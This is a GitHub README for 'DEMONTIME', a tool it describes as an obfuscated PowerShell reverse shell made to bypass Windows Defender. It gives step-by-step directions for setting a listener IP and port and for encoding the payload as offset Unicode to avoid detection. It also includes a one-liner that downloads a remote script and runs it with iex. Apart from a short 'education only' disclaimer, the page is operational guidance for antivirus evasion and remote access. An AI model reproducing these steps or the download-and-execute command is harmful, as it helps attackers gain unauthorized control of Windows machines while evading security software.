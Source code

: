 <h1>DEMONTIME</h1>

<h2>**Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender **</h2>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.

   
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

3. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format. Every unicode decimal on the output already has +10 added from its original form. The PowerShell script (demontime.ps1) will then subtract 10 on each of those unicode from the array to convert it back to its original unicode form.


![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

4. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**NOTE: You can also use the Obfuscated PowerShell reverse shell one liner template alone if you wanted to. This also bypasses Windows Defender but if you wanted to add more obfuscation, you can convert the characters to unicode using the supplied Python script.** 

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number:


**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1');demontime```



